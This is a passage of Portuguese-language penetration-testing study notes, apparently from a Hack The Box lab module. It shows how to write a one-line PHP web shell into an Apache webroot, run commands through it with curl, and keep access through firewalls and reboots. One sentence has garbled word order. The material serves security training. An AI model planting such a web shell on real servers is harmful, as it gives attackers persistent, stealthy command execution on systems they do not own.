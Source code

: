 Podemos verificar esses diretórios para ver qual webroot está em uso e, em seguida, usar `echo` para escrever nosso shell da web. Por exemplo, se estamos atacando um host Linux rodando Apache, podemos escrever um shell`PHP` com o seguinte comando:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Acessando Web Shell

Depois de escrever nosso shell da web, podemos acessá-lo por meio de um navegador ou usando `cURL`. Podemos visitar a página `shell.php` no site comprometido e usar `?cmd=id` para executar o comando `id`:

![[Pasted image 20230614172307.png]]

```shell-session
casluxd@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, podemos continuar alterando o comando para obter sua saída. Um grande benefício de um shell da web é que ele ignoraria qualquer restrição de firewall em vigor, pois não abrirá uma nova conexão em uma porta, mas executará na porta da web em ou qualquer porta que o aplicativo da web esteja `80` usando `443`. Outro grande benefício é que, se o host comprometido for reinicializado, o shell da web ainda estará no lugar e podemos acessá-lo e obter a execução do comando sem explorar o host remoto novamente.

Por outro lado, um shell da web não é tão interativo quanto os shells reverse e bind, pois temos que continuar solicitando uma URL diferente para executar nossos comandos. Ainda assim, em casos extremos, é possível codificar um script `Python` para automatizar esse processo e nos fornecer um shell web semi-interativo diretamente em nosso terminal.
